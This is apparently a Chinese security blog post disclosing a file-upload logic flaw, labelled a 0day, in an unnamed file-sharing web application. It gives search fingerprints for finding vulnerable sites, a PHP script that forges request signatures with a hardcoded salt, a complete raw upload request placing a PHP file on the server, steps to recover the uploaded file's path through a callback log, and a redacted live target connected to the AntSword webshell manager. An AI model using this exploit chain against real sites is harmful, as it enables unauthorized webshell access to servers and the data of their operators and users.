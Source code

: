 #  某网盘逻辑缺陷GetShell0day   
青山  进击安全   2024-01-06 16:52  
  
**01**  
  
**指纹**  
  
  
本篇文章为青山师傅代审实战案例分享  
  
佬的指纹："assets/picture/header-mobile.png"  
  
我的指纹：title="分享赚钱,让资源有价值!"  
  
  
**02**  
  
逻辑缺陷_文件上传  
  
  
漏洞位置：public/server/index.php  
  
URL访问：http://localhost/server/index.php  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicIehC05s40PVQPbibNmz6o2XCjPuF28VJdWhKx5wp6xQKwoFWttV6EIUe1IKgqLf0BEdEzEKsuz6Tw/640?wx_fmt=png&from=appmsg "")  
  
构造数据包 用以下PHP脚本生成sign  
```
<?php

function sign_params($params): string
{
    // 过滤参数
    $params = array_filter($params,function($key) use ($params){
        if(empty($params[$key]) || $key == 'sign'){
            return false;
        }
        return true;
    },ARRAY_FILTER_USE_KEY);

    // ascii排序
    ksort($params);
    reset($params);
    var_dump($params);
    // 签名
    return md5(urldecode(http_build_query($params)) . "asdasfasfasfasfasfa");
}

$_GET['md'] = "upload";
$_GET['uid'] = "1";
$_GET['notify'] = 'http://localhost/1.php';//用于接受请求获取上传的文件路径
echo sign_params($_GET);
```  
  
  
**1.php内容为：UPLOAD_SUCCESS******  
  
上传poc如下  
```
POST /server/index.php?md=upload&sign=b8ae73af203e8b88e6624998cc55e5a1&uid=1&notify=http%3A%2F%2Flocalhost%3A99%2F1.php HTTP/1.1
Host: 127.0.0.1
Cache-Control: no-cache
Accept: */*
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=--------------------------570796120375390059114427
User-Agent: PostmanRuntime-ApipostRuntime/1.1.0
Content-Length: 389

----------------------------570796120375390059114427
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: application/x-httpd-php

<?php phpinfo(); ?>
----------------------------570796120375390059114427--
```  
  
  
返回上传成功  
  
查看  
http://localhost/1.php的访问日志  
  
获取访问日志具有参数path  
  
拼接  
http://localhost/server/+path就是webshell地址  
  
  
  
  
**03**  
  
复现  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicIehC05s40PVQPbibNmz6o2XILF31LicB7QzLZpCSYHE4yvcbNGPWjcaANvAJicv1Fe67icuoC8P6y3NQ/640?wx_fmt=png&from=appmsg "")  
  
构造发包  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicIehC05s40PVQPbibNmz6o2XAJhIINAicm77ewvL4IhAGR3GvSwRGibufnh4pEnXiagISuFstQ1JPcdew/640?wx_fmt=png&from=appmsg "")  
  
  
日志记录如下：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicIehC05s40PVQPbibNmz6o2XicmfJxuxTbwFTKLabdlia5rtEEMLLe96bicoiaMgEvwwsrzwDcYKkia8jNQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicIehC05s40PVQPbibNmz6o2XYlZUhszW8o6XrOKic7iaaGkUBWQWHAnc8jEW8S0UNlX28NX8yqGB5t0g/640?wx_fmt=png&from=appmsg "")  
  
  
拼接url：  
  
https://*****/server//upload/20240103/1/file_dGeBwYb21wvyBKLu.php  
  
AntSword链接  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicIehC05s40PVQPbibNmz6o2XlbEqmrdIJGGNtnOrknJFte3aZCut7bg2HYvNqYDVWyNKAVZaXF4zrA/640?wx_fmt=png&from=appmsg "")  
  
  
  
**本篇文章为青山师傅代审实战案例分享**  
  
****  
**公众号作者联系方式**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/ZRKuxIKRyhXhuxbCGecu4ibia3kSXD8ePQHrSvPSNtC7PmjzQwR88Hu0LpuXdQzamKBCPAXX82anLS8f0FF3LzzQ/640?wx_fmt=jpeg "")  
  
****  
  
